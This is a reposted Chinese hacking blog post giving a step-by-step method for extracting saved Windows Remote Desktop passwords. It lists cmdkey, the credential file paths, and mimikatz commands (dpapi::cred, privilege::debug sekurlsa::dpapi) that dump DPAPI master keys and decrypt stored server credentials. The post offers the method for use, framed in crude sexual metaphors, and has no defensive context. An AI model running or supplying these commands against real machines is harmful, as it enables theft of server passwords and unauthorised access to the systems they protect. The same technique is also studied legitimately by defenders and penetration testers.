 ```yaml
---
layout: post
title: 破解远程终端凭据，获取服务器密码
subtitle: 2017/10/20
date: 2017-10-20
author: FR
header-img:
catalog: true
tags:
    - windows
    - crack
    - password
---
```

# 破解远程终端凭据，获取服务器密码
- **原文转自T00ls.net [【原文链接】](https://www.t00ls.net/articles-41926.html)**

测试环境：windows 10

道友们应该碰到过管理在本地保存远程终端的凭据，凭据里躺着诱人的胴体(服务器密码)，早已让我们的大棒饥渴难耐了。
但是，胴体却裹了一身道袍(加密)，待老衲操起法器将其宽衣解带。

![pic01](img/2017-10-20/pjyczdpjhqfwqmm_01.png)

## 0x01 凭据管理器中查看Windows凭据：TERMSRV/1xx.xxx.xxx.xx2

![pic02](img/2017-10-20/pjyczdpjhqfwqmm_02.png)

可通过命令行获取，执行: cmdkey /list
>注意:该命令务必在Session会话下执行，system下执行无结果。

## 0x02 凭据存储在用户目录下

C:\Users\<username>\AppData\Local\Microsoft\Credentials\*，图中名为"FF359429D6F19C64BA7D3E282558EEB5"的文件即为目标凭据:TERMSRV/1xx.xxx.xxx.xx2的存储文件

![pic03](img/2017-10-20/pjyczdpjhqfwqmm_03.png)

## 0x03 执行

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5"`

![pic04](img/2017-10-20/pjyczdpjhqfwqmm_04.png)

pbData是凭据的加密数据，guidMasterKey是凭据的GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}。

## 0x04 执行

`mimikatz privilege::debug sekurlsa::dpapi`

![pic05](img/2017-10-20/pjyczdpjhqfwqmm_05.png)

根据目标凭据GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}找到其关联的MasterKey，这个MasterKey就是加密凭据的密钥，即解密pbData所必须的东西。

## 0x05 拿到了MasterKey,服务器密码便唾手可得。执行解密命令

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5 /masterkey:28d1f3252c019f9cxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx16dcec8e5dbf5cd0"`

![pic06](img/2017-10-20/pjyczdpjhqfwqmm_06.png)

解密出来的CredentialBlob即为凭据TERMSRV/1xx.xxx.xxx.xx2的服务器密码。

衣带渐宽终不悔，为伊消得人憔悴。阿弥陀佛。

## 参考:
http://www.freebuf.com/articles/network/146460.html
